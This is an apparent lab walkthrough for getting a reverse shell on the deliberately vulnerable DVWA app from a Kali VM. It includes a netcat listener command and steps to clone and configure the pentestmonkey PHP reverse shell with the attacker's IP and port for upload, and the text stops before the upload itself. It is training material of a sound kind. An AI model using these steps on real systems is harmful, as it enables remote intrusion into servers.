 # Reverse shell on DVWA low security

1. First thing we need to do is to turn on both VMs. The DVWA machine will be our so called 'victim' and we will use the Kali VM to execute our attack.

![Screen Shot 2022-03-12 at 6 24 58](https://user-images.githubusercontent.com/18306338/158039450-712ec43d-fda4-4d77-bf38-0de175135ed6.png)

2. Second step is to query the ip address of the DVWA VM machine with the ifconfig command.
   We now see that the IP address we need to taget at the Kali machine is 10.0.2.4.

![Screen Shot 2022-03-12 at 6 26 34](https://user-images.githubusercontent.com/18306338/158039479-cd9b8278-c8e5-4b63-93b1-e2f268368fa3.png)

3. Third step is to fire up the firefox browser on the Kali machine and navigate to the 10.0.2.4

![Screen Shot 2022-03-12 at 6 28 40](https://user-images.githubusercontent.com/18306338/158039524-72453e7f-1b84-42ad-9b13-21ca5f8af5b0.png)

 We are navigated to the login.php route, which is one of the hints that this website is served with PHP.

4. After we use the admin password combination to login we see that the default state of the Security level for the DVWA is high so we need to lower it for the purposes of this task.

Default:

![Screen Shot 2022-03-12 at 6 30 59](https://user-images.githubusercontent.com/18306338/158039594-c256b504-4f5f-4d87-b19f-d21068efea6b.png)

We need to navigate to DVWA Security dropdown option

After submission:

![Screen Shot 2022-03-12 at 6 31 29](https://user-images.githubusercontent.com/18306338/158039768-073542fd-7919-463d-a6cc-b8e879e2c9db.png)


7. We now have the DVWA security set to low and we can try the upload functionality with a dummy image

8. Our next step is to open a console and use netcat to start listening for a connection on a port we will provide in further steps

Command : nc -l -v -n -p 12345

-l indicates netcat will be in listen mode for inbound connections
-v would make the output in console a bit more verbose meaning more information will be printed
-n would allow numeric only IP addresses(removing DNS)
-p would target 12345 port

9. Next step for us would be to download a ready to use php reverse shell - googling for such available tool brings up the following  
   https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

10. We need to use git clone https://github.com/pentestmonkey/php-reverse-shell.git command and then the content of
    php-reverse-shell.php file needs to be updated. The ip variable needs to refer to the IP address of our Kali machine.
    The port variable needs to refer to the port param we are using through the netcat tool(12345).
